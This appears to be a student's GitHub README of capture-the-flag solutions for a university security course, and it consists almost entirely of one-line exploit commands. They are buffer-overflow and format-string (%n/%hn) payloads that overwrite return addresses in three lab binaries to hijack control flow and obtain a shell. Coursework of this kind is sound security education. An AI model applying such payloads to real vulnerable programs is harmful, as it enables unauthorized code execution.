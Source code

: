 # PWN
### Flags captured Computer Security Course held by Prof. Barenghi @ PoliMi

## First exploit - Mission 0: Ooh Easy

#### solution 1 (Exerciser Syle)
```bash
./mission0 < <(python -c "import sys;sys.stdout.write('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')")
```
#### solution 2 (Personal Style)
```bash
./mission0 < <(python -c "print('\x3d\x07\x01\x01' + 'A'*8 + '\xab\x85\x04\x08')" )
```
<br><br>

## Second exploit - Mission 1: Aye Captain!

#### Step 1 - gdb n00b sol 
```bash
set args < <(python -c 'print"\x70\xd0\xff\xff" + "%134513911c" + "%4$n"')
```
#### Step 2 - gdb pro sol
```bash
set args < <(python -c 'print"\x72\xd0\xff\xff\x70\xd0\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 3 - gdb pro sol [on necst machine]
```bash
set args < <(python -c 'print"\xa2\xc5\xff\xff\xa0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"')
```

#### Step 4 - Road to clean sol [on necst machine]
let's find the offset on the stack due to gdb, just run the executable with this input on the shell with and without gdb. the offset will be [ADDR GDB] - [ADDR]
```bash
%22$x
```
#### Step 5 - clean sol [on necst machine]
```bash
./mission1 < <(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') 
```

#### Step 6 - save the exploit on a file
```bash
(python -c 'print"\xd2\xc5\xff\xff\xd0\xc5\xff\xff%2044c%4$hn%31991c%5$hn"') > exploit
```

#### Step 7 - drop tha bomb, just create a file with the python script called exploit, and send to our executable ( - is for keep STDIN open)
```bash
cat exploit - | ./mission1
```
<br><br>

## Third exploit - Mission 2: Birdwatching
```bash
./mission2 < <(python -c "import sys; sys.stdout.write('AAAA' + '\x00' + '\x90'*140 + 'AAAA' + '\x00')")
```

<br><br>
